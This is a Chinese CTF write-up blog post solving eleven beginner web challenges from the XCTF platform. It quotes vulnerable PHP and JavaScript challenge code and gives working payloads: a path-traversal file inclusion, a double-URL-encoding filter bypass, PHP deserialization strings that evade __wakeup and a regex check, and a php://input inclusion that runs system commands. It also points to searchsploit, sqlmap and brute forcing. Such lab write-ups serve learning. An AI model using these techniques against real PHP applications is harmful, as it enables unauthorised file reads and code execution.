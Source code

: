 ```yaml
---
title: "攻防世界web前11题WP"
date: 2022-01-18T11:26:31+08:00
draft: false
categories: ["CTF-WEB"]
---
```


### baby_web

进去之后发现是/1.php,根据提示“初始页面”，用burpsuite截获index.php，获得flag。
知识点：网页初始页面的文件名一般为index。

### warmup

进去之后发现一个滑稽表情，用burpsuite截获数据包后发现有个source.php，打开之后发现页面源代码。
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {//page必须被设置且page必须是字符串，否则将被过滤
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {//如果page在白名单内则合法
                return true;
            }

            $_page = mb_substr(//mb_substr(str,start,length)截取字符串中的一段
                $page,
                0,
                mb_strpos($page . '?', '?')//查找'?'在page中首次出现的位置
            );//将page问号之后的内容截掉
            if (in_array($_page, $whitelist)) {//若此时的page在白名单内则合法
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])//_REQUEST是post和get的集合
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])//要求file也满足上面的要求
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
```
根据源代码得到提示，找到文件hint.php，得知flag在ffffllllaaaagggg这个文件里。再次进行代码审计,发现底下有个文件包包含，构造payload为：
http://111.200.241.244:60683/source.php?file=source.php?./../../../../ffffllllaaaagggg
就可以得到flag。

### Training-WWW-Robots

签到题，科普了一波robots.txt。

### PHP2

根据题目提示访问/index.phps获取提示信息：
```php
<?php
if("admin"===$_GET[id]) {//如果id全等于admin则会被过滤
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);//id进行一次url解码
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>

Can you anthenticate to this website?
```
构造id=%2561dmin使之在被两次urldecode后等于admin就可获得flag。

### Web_php_unserialize

又是一道反序列化的题。打开网页发现源代码。
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { //构造函数，赋值给file
        $this->file = $file; 
    }
    function __destruct() { //析构函数
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { // /i的意思是不区分大小写
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
当Demo被反序列化时，wakeup函数中的内容会被执行，通过构造类中成员属性数目大于实际数目绕过。
`var=O:4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}`
下面是对var变量的检查，用到了正则表达式，如果var符合开头`o:数字`的形式就会被过滤，这里采用`+`号过滤。
构造`var=O:+4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}`，再进行一次base64加密，构造payload传参即可得到flag。
注意Demofile中的\0，最好直接复制序列化之后的结果来改，不然特殊字符很容易出问题。

### php_rce

打开以后发现是个Thinkphp V5的介绍页面，说明要利用Thinkphp框架的漏洞。查阅kali linux自带的漏洞数据库即可获得hack的方法。

使用`searchsploit thinkphp``命令即可查询到可利用的漏洞。

然后远程代码执行，找到flag文件。

### Web_php_include

看题目应该是个文件包含。打开页面出一段代码。
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
阅读代码发现，题目简单过滤了"php://"利用php大小写不敏感的特性，构造大写的pHp://绕过过滤。
使用php://input协议，远程执行代码：
```php
<?php
system("ls");
?>
```
和
```php
<?php
system("cat fl4gisisish3r3.php");
?>
```
获取flag。

### ics-06

签到。Burpsuite暴力跑字典破解。。。

### NewsCenter

注意到网站使用的Sql数据库，使用Sqlmap工具hack。
[sqlmap使用教程](https://www.vuln.cn/1992)

### NaNNaNNaNNaN-Batman

下载到一段代码：
```javascript
function $(){
    var
    e=document.getElementById("c").value;
    if(e.length==16)
        if(e.match(/^be0f23/)!=null)
            if(e.match(/233ac/)!=null)
                if(e.match(/e98aa$/)!=null){
                    if(e.match(/c7be9/)!=null){
                        var t=["fl","s_a","i","e}"];
                        var n=["a","_h0l","n"];
                        var r=["g{","e","_0"];
                        var i=["it'","_","n"];
                        var s=[t,n,r,i];
                        for(var o=0;o<13;++o){
                            document.write(s[o%4][0]);s[o%4].splice(0,1)
                        }
                    }
                }
}
```
js正则表达式审计，但其实可以直接把前面判断的代码删掉，再跑一下生成flag的那段获取flag。

### unserialize3

又一道反序列化，打开页面得到代码：
```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```
这题和上道反序列化题相比完全是两个级别，直接将给的代码反序列化后，绕过wake_up即可得到flag。